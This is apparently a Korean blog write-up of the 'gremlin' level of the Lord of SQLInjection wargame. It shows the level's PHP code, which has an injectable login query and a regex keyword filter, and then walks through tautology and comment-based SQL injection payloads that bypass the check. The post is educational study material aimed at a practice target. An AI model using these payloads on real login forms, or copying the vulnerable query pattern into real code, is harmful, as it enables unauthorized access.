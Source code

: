 ```yaml
---
layout: post

title: Lord of SQLInjection 1일차

description: >
  Lord of SQLInjection Day1

tags:
 - [LOS, SQL, Injection]

toc: true
toc_sticky: true

date: 2023-01-27

sitemap: false

---
```

---
## LORD OF SQLINJECTION
### gremlin
- 문제
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
<details markdown="1">
<summary>풀이</summary>

```php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
# db에서 select한 id를 $query에 저장한다.
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
# mysqli_query($db, $query): db에서 query로 가져온 데이터.
# $result = mysqli_fetch_array(): $result에 array로 저장한다.
# if $result['id'] solve("gremlin"): id가 result에 있으면 solve.
```
> 입력된 id가 db에 있으면 gremlin이 해결된다. admin 등의 id로 시도해볼 수 있겠지만, 여기에선 논리식으로 풀이한다.

- 답안
id= '' and pw= '' 값이 TRUE가 나오면 되는 문제다.
1. id= '' or '1=1' & pw= '' or '1=1'  
가장 단순하게 TRUE and TRUE를 만들었다. 
2. id= '' or '1=1' or '#' /and pw=/  
id를 TRUE로 만들어주고 and 뒤를 주석처리하여 TRUE를 만들었다.
3. **id= '' or '1=1' or '1=1' /and pw=/  
and 연산이 선순위를 가지는 점을 이용하였다. 
TRUE or TRUE and FALSE로 구성했다. 최종 TRUE.**
4. pw='1' or '1=1'  
3.과 같다. FALSE and FALSE or TRUE로 구성했다. 최종 TRUE.
</details>

## 부록
### PHP
- url에서 특수문자는 무시된다. #의 url인코딩 %23   
[GET](https://stonefree.tistory.com/616)
- GET 방식은 데이터를 URL에 붙여 데이터를 전송하는 방식.  
[preg_match](https://ponyozzang.tistory.com/176)
- 첫 번째 인수: 정규식 표현 작성.
- 두 번째 인수: 검색 대상 문자열.  
[PHP MySQL](https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=diceworld&logNo=220292127761)
